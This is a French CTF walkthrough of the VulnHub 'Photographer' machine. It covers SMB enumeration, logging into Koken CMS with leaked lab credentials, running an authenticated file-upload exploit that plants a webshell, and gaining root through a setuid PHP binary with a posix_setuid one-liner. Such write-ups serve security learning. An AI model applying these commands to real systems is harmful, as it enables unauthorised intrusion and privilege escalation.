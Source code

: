 ```yaml
---
title: "Solution du CTF Photographer de VulnHub"
tags: [CTF, VulnHub]
---
```


[Photographer](https://vulnhub.com/entry/photographer-1,519/) est un boot2root créé par [v1n1v131r4](https://twitter.com/@v1n1v131r4) et téléchargeable sur VulnHub.

```
Nmap scan report for 192.168.242.128
Host is up (0.00053s latency).
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Photographer by v1n1v131r4
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
8000/tcp open  http        Apache httpd 2.4.18
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-generator: Koken 0.22.24
|_http-title: daisa ahomi
MAC Address: 00:0C:29:27:57:E7 (VMware)
Service Info: Hosts: PHOTOGRAPHER, example.com

Host script results:
|_clock-skew: mean: 2h39m59s, deviation: 2h53m12s, median: 59m59s
|_nbstat: NetBIOS name: PHOTOGRAPHER, NetBIOS user: <unknown>, NetBIOS MAC: 000000000000 (Xerox)
| smb2-time: 
|   date: 2022-11-19T21:53:38
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: photographer
|   NetBIOS computer name: PHOTOGRAPHER\x00
|   Domain name: \x00
|   FQDN: photographer
|_  System time: 2022-11-19T16:53:37-05:00
```

## Talkie Talkie

On peut récupérer quelques partages via smbclient :

```bash
$ smbclient -U "" -N -L //192.168.242.128

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        sambashare      Disk      Samba on Ubuntu
        IPC$            IPC       IPC Service (photographer server (Samba, Ubuntu))
SMB1 disabled -- no workgroup available
```

Il y a deux fichiers que l'on peut récupérer :

```bash
smbclient -U "" -N //192.168.242.128/sambashare
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Jul 21 03:30:07 2020
  ..                                  D        0  Tue Jul 21 11:44:25 2020
  mailsent.txt                        N      503  Tue Jul 21 03:29:40 2020
  wordpress.bkp.zip                   N 13930308  Tue Jul 21 03:22:23 2020

                278627392 blocks of size 1024. 264268400 blocks available
```

Le premier est un mail d'un certain `Agi` pour `Daisa` :

```
Message-ID: <4129F3CA.2020509@dc.edu>
Date: Mon, 20 Jul 2020 11:40:36 -0400
From: Agi Clarence <agi@photographer.com>
User-Agent: Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.0.1) Gecko/20020823 Netscape/7.0
X-Accept-Language: en-us, en
MIME-Version: 1.0
To: Daisa Ahomi <daisa@photographer.com>
Subject: To Do - Daisa Website's
Content-Type: text/plain; charset=us-ascii; format=flowed
Content-Transfer-Encoding: 7bit

Hi Daisa!
Your site is ready now.
Don't forget your secret, my babygirl ;)
```

Le second est une archive de Wordpress mais il n'y a pas le `wp-config.php` dedans.

## Patting myself on the back

Sur le port 8000 je trouve le CMS *Koken*, une appli web déjà croisée sur [le CTF The Office: Doomsday Device de VulnHub]({% link _posts/2022-01-27-Solution-du-CTF-The-Office-Doomsday-Device-de-VulnHub.md %}#kitty-cat). Il semble s'agir du site de Daisa Ahomi.

Le site fait mention d'un fichier *shell.php* qui a du être uploadé comme si c'était une image. L'URL du fichier est facile à obtenir mais la page retourne le message suivant :

> WARNING: Failed to daemonise. This is quite common and not fatal. Network is unreachable (101)

Après recherche le fichier utilisé semble être [pentestmonkey/php-reverse-shell · GitHub](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). Ce script se base sur une adresse IP et un port hardcodé donc on ne peut rien faire avec.

Juste à l'intuition je trouve que l'interface admin du Koken est à l'adresse `/admin` et qu'on peut se connecter avec les identifiants `daisa@photographer.com` / `babygirl`.

Petite auto-tape dans le dos puisque sur le précédent CTF j'avais codé un exploit pour la faille d'upload arbitraire sur le *Koken* du coup ici je n'ai qu'à exécuter :

```bash
$ python3 koken_exploit.py http://192.168.242.128:8000/ daisa@photographer.com babygirl
Koken CMS 0.22.24 - Arbitrary File Upload (Authenticated)
-- devl00p.github.io 2022 --
Successfully authenticated as daisa ahomi
Enjoy your shell at http://192.168.242.128:8000//storage/originals/f6/70/eubfyyiektheoqhlbobx.php?cmd=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Je rapatrie un reverse-ssh sur la VM. Le firewall semble filtrer des ports sortants mais ça fonctionne avec le port 80 (et sinon, les ports entrants de la VM ne sont pas filtrés).

Dans le dossier personnel de `daisa` se trouve le premier flag :

```bash
www-data@photographer:/home/daisa$ cat user.txt 
d41d8cd98f00b204e9800998ecf8427e
```

L'exécutable php est setuid root sur le système :

`-rwsr-xr-x 1 root root 4883680 Jul  9  2020 /usr/bin/php7.2`

L'exécutable donne bien l'effective UID 0 du moment qu'on reste dans PHP :

```bash
$ php -r "print(posix_getuid(). ' '. posix_geteuid());"
33 0
```

Si on exécute autre chose, c'est droppé :

```bash
$ php -r "system('id');"
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Pour ça il faut explicitement écraser l'UID et le GID :

```bash
$ php -r "posix_setuid(0); posix_setgid(0); system('dash -i');"
# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
# cd /root
# ls
proof.txt
# cat proof.txt
                                                                   
                                .:/://::::///:-`                                
                            -/++:+`:--:o:  oo.-/+/:`                            
                         -++-.`o++s-y:/s: `sh:hy`:-/+:`                         
                       :o:``oyo/o`. `      ```/-so:+--+/`                       
                     -o:-`yh//.                 `./ys/-.o/                      
                    ++.-ys/:/y-                  /s-:/+/:/o`                    
                   o/ :yo-:hNN                   .MNs./+o--s`                   
                  ++ soh-/mMMN--.`            `.-/MMMd-o:+ -s                   
                 .y  /++:NMMMy-.``            ``-:hMMMmoss: +/                  
                 s-     hMMMN` shyo+:.    -/+syd+ :MMMMo     h                  
                 h     `MMMMMy./MMMMMd:  +mMMMMN--dMMMMd     s.                 
                 y     `MMMMMMd`/hdh+..+/.-ohdy--mMMMMMm     +-                 
                 h      dMMMMd:````  `mmNh   ```./NMMMMs     o.                 
                 y.     /MMMMNmmmmd/ `s-:o  sdmmmmMMMMN.     h`                 
                 :o      sMMMMMMMMs.        -hMMMMMMMM/     :o                  
                  s:     `sMMMMMMMo - . `. . hMMMMMMN+     `y`                  
                  `s-      +mMMMMMNhd+h/+h+dhMMMMMMd:     `s-                   
                   `s:    --.sNMMMMMMMMMMMMMMMMMMmo/.    -s.                    
                     /o.`ohd:`.odNMMMMMMMMMMMMNh+.:os/ `/o`                     
                      .++-`+y+/:`/ssdmmNNmNds+-/o-hh:-/o-                       
                        ./+:`:yh:dso/.+-++++ss+h++.:++-                         
                           -/+/-:-/y+/d:yh-o:+--/+/:`                           
                              `-///////////////:`                               
                                                                                

Follow me at: http://v1n1v131r4.com


d41d8cd98f00b204e9800998ecf8427e
```

*Publié le 19 novembre 2022*
